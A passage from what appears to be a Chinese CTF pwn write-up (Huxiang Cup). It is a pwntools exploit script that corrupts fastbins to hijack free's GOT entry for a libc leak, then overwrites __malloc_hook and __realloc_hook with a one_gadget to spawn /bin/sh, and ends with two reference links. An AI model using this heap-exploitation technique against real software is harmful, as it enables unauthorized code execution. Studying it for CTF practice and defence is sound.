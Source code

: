```
new(0x50,p64(tar))
new(0x50,"ccc")
new(0x50,"ddd")
# overwrite free_got
printf_plt = elf.plt["printf"]
new(0x50,"a"*6+p64(0)+p64(printf_plt)[:7])
de(0)

# fastbin to malloc_hook
libc.address = int(r(14),16) - libc.sym["__libc_start_main"]-240
print hex(libc.address)
one = libc.address +0xf1147
m_hook = libc.sym["__malloc_hook"]
realloc = libc.sym["realloc"]
'''
0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
for i in range(5):
    de(0)

# attack to malloc_hook,realloc_hook
new(0x60,p64(m_hook-0x23))
new(0x60,"aa")
new(0x60,"aa")
new(0x60,"a"*0xb+p64(one)+p64(realloc+20))

print hex(one)
new(0x10,"/bin/sh")

io.interactive()

```

### 参考

[realloc_hook调整onegadget](https://blog.csdn.net/Maxmalloc/article/details/102535427)

[湖湘杯部分wp](https://mp.weixin.qq.com/s/4xMLgNek5uYkT8OhC6miew)

